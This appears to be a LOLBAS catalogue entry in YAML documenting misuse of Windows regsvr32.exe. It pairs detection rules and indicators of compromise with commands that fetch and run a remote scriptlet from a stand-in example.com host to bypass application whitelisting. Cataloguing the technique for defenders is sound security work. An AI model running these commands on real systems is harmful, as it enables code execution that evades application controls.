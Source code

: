 ```yaml
---
Name: Regsvr32.exe
Description: Used by Windows to register dlls
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\regsvr32.exe
  - Path: C:\Windows\SysWOW64\regsvr32.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6fbce11094285e5ba13fe101b9cb70f5b1ece198/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6d56e400d209daa77a7900d950a7c587dc0cd2e5/rules/windows/network_connection/sysmon_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/5951ad1d9a781a49d61df9af03c7b83ac67a0012/rules/windows/dns_query/dns_query_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_regsvr32_flags_anomaly.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/file_event/sysmon_susp_clr_logs.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/detect_regsvr32_application_control_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/execution_register_server_program_connecting_to_the_internet.toml
  - IOC: regsvr32.exe retrieving files from Internet
  - IOC: regsvr32.exe executing scriptlet (sct) files
  - IOC: DotNet CLR libraries loaded into regsvr32.exe
  - IOC: DotNet CLR Usage Log - regsvr32.exe.log
Resources:
  - Link: https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

